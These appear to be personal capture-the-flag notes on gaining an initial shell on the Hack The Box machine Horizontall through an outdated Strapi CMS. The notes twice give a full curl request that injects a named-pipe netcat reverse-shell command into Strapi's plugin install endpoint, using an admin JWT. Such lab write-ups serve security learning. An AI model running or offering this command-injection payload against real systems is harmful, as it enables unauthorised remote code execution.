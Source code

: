# Getting initial shell as strapi user
## Knowing strapi version running as CMS on http://horizontall.htb/
Got strapi version running as CMS on http://horizontall.htb/ on address http://api-prod.horizontall.htb/admin/init
![[Pasted image 20210910144351.png]]
## Found exploit for strapi version 3.0.0-beta.17.4 on exploit-db
Found exploit for strapi version 3.0.0-beta.17.4 on [exploit-db](https://www.exploit-db.com/exploits/50239).
## Executed above exploit to get Remote code execution on target system and getting reverse shell
![[Pasted image 20210910154320.png]]
## Other ways to get initial shell
### Set password for user exploit and getting JWT token via burp and then getting reverse shell via curl command 
* In this [exploit](https://www.exploit-db.com/exploits/50237), password for `admin`
user can be set and can be logged in as admin user on http://api-prod.horizontall.htb/admin .
* Then we can get JWT token while uploading file in 'Files Upload' section by intercepting request in burp.
* Then we can get reverse shell via this curl command `curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMxMzQ4OTU1LCJleHAiOjE2MzM5NDA5NTV9.cZRCsohwMC4ETPFaPuUwcaA4W7YSbUV6Cogm2SRrwj8' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.98 9000 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'`
### Getting JWT token via code on [website](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/) and getting reverse shell via CURL
* We can get JWT token by running python script on [website](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/) 
* Then we can get reverse shell via this curl command `curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMxMzQ4OTU1LCJleHAiOjE2MzM5NDA5NTV9.cZRCsohwMC4ETPFaPuUwcaA4W7YSbUV6Cogm2SRrwj8' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.98 9000 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'`

